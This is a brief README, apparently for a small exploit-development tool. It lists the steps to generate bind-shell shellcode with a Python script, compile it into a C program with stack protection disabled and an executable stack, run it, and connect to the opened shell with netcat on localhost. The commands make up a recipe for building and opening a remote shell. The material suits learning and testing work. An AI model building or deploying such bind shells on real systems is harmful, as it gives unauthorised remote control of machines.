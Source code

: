 # Usage

1. 
2. `python3 create_bindshell_shellcode.py -p <port number>`
3. Copy shellcode, paste into shellcode.c.
4. Compile shellcode.c: `gcc -fno-stack-protector -z execstack shellcode.c -o shellcode`
5. Run shellcode: `./shellcode`
6. Connect to bindshell, in a separate terminal: `nc -nv 127.0.0.1 <port number>`
